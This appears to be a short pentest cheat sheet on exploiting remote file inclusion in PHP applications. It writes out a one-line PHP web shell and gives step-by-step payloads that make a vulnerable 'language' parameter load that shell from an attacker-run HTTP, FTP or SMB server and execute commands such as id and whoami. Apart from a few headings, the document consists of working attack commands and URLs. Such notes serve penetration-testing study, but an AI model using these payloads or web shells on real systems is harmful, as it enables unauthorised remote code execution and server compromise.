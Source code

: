 
Requirements for method to work
```
allow_url_include in php.ini
```

Create php page
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

### HTTP method
Start call back server
```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

### FTP method
Start ftp server
```shell-session
sudo python -m pyftpdlib -p 21
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```

### SMB Method

Start SMB server
```shell-session
impacket-smbserver -smb2support share $(pwd)
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

